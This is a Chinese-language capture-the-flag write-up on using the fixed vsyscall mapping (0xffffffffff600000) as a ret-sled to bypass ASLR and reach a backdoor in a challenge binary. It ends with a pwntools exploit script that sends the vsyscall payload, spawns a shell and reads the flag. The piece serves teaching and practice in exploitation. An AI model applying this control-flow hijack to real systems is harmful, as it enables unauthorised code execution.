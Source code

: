 # 无法利用的漏洞
本题考查利用vsyscall实现漏洞利用，利用条件是栈上的数据没有清理干净同时系统开启了vsyscall。这道题是希望理解了基本ROP的同学通过提示“Do you know how to make syscall faster?”学习vsyscall的利用方法。这个漏洞有趣的地方在于，只要满足利用条件，即使开了aslr而且编译器保护全开也能劫持控制流。

# 解答
vsyscall的全称是virtual system call，当初引入这个机制是为了减少系统调用时从用户态切换到内核态的开销。某些系统调用并不会向内核传递参数，而仅仅是从内核里请求读取某个数据，比如gettimeofday。所以可以直接把gettimeofday的实现直接映射到用户空间中，这样就避免了用户态到内核态转换的开销。（实际上还有个好处是对于gettimeofday这种对时间要求比较精确的函数，实现快速系统调用更加的科学）
但是vsyscall有很严重的安全问题，vsyscall用户空间映射的地址是固定的，64位系统上是0xffffffffff600000。把题目在开启了vsyscall的机器上跑起来，查看一下内存映射状态如下：

![1](images/1.png)

虽然设计者限制了只有从vsyscall的函数入口进入才能正常运行(避免了拿这个ret作为gadget来ROP),但是我们可以反复调用vsyscall来不断地调用ret像滑雪橇一样破坏栈平滑。只要栈上有.text段的地址没有清除干净，通过修改最低位就劫持了控制流。把二进制文件丢到IDA里分析一波发现其实留了个后门，那么思路就很简单了,只要栈上数据不干净就能利用了。gdb打个断点看看栈上的情况：

![2](images/2.png)

果然没有清理干净，那么直接写exp然后就pwn成功啦！

```python
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
import random, string
from hashlib import sha256
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
debug = 1

if debug:
    io = process('./impossible')
else:
    io = remote("127.0.0.1", 10001)

io.recvuntil("Hack me please!\n")
gdb.attach(io.pid)
vsyscall = 0xffffffffff600000
io.interactive()
io.send(p64(vsyscall)*30+'\x6b')
io.recv()
io.sendline('/bin/sh')
io.sendline('cat flag')
io.interactive()
```
